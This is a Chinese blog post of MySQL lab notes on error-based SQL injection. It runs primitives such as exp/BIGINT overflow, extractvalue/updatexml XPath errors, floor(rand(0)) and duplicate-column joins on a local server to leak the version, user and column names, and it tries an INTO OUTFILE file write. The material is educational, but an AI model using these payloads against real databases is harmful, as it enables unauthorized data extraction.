 ```yaml
---
layout: post

title: "Mysql一些有趣的用法"
date: 2017-03-06 15:06:23 +0800

categories: post
tags: [mysql, sql注入, 网络安全]
---
```


1. 查看BIGIN最大值以及数据溢出

    ```bash
    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)

    mysql> select ~0+1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
    mysql>
    ```
    > 在mysql **5.5** 之前，整形溢出是不会报错的

1. 查看用户,以及查询返回值逻辑运算

    ```bash
    mysql> select user();
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select * from (select user()) x;
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select (select * from (select user()) x);
    +-----------------------------------+
    | (select * from (select user()) x) |
    +-----------------------------------+
    | root@localhost                    |
    +-----------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x);
    +------------------------------------+
    | !(select * from (select user()) x) |
    +------------------------------------+
    |                                  1 |
    +------------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x) + 1;
    +----------------------------------------+
    | !(select * from (select user()) x) + 1 |
    +----------------------------------------+
    |                                      2 |
    +----------------------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```

1. 使用 [exp](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) 精度溢出

    ```bash
    mysql> select exp(709);
    +-----------------------+
    | exp(709)              |
    +-----------------------+
    | 8.218407461554972e307 |
    +-----------------------+
    1 row in set (0.00 sec)

    mysql> select exp(710);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
    mysql>
    ```

    > MySQL [EXP()](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) returns the value of the base of natural logarithm number e, raised to the power of a number specified as argument.

1. SQL注入:

    ```bash
    mysql> select exp(~(select * from (select user()) x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `x`.`user()` from (select user() AS `user()`) `x`)))'
    ```
    等同于
    ```bash
    mysql> select exp(~1);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
    ```

    ```bash
    mysql> select (select (!x-~0) from (select (select user()) x) a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
    ```
    > 在mysql **5.5.47** 可以在报错中返回查询结果,而在mysql **>5.5.53** 时，则不能返回查询结果

1. 查看mysql 版本

    ```bash
    mysql> select @@version;
    +-------------------------+
    | @@version               |
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql> select NAME_CONST(version(),1);
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    |                       1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
1. xpath语法错误,暴露查询信息

    ```bash
    mysql> select extractvalue(1, (select @@version));
    ERROR 1105 (HY000): XPATH syntax error: '.17-0ubuntu0.16.10.1'
    mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql>
    ```
    > MySQL [CONCAT()](http://www.w3resource.com/mysql/string-functions/mysql-concat-function.php)  function is used to add two or more strings.

1. 随机数漏洞
    ```bash
    mysql> select rand(0);
    +---------------------+
    | rand(0)             |
    +---------------------+
    | 0.15522042769493574 |
    +---------------------+
    1 row in set (0.00 sec)

    mysql> select floor(rand(0)*2);
    +------------------+
    | floor(rand(0)*2) |
    +------------------+
    |                0 |
    +------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
    > rand(0)是个稳定的序列, floor(rand(0)\*2)则会固定得到011011...的序列

1. 表重复+JOIN 爆列名

    ```bash
    mysql> select * from (select * from information_schema.tables a join information_schema.tables b) c;
    ERROR 1060 (42S21): Duplicate column name 'TABLE_CATALOG'
    mysql>
    ```

> 本文为验证. 原文为: [\[Web安全\]MYSQL报错注入的一点总结](https://xianzhi.aliyun.com/forum/read/762.html)

---
使用exp创建文件,但是(高版本mysql)必须进行安全配置 [^1]

```bash
mysql> select exp(~(select * from(select 'hello') x)) into outfile '/tmp/exp.txt';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
mysql>
```
---
### 索引

[^1]: [How to create/write a file using exp() in mySQL](http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql)
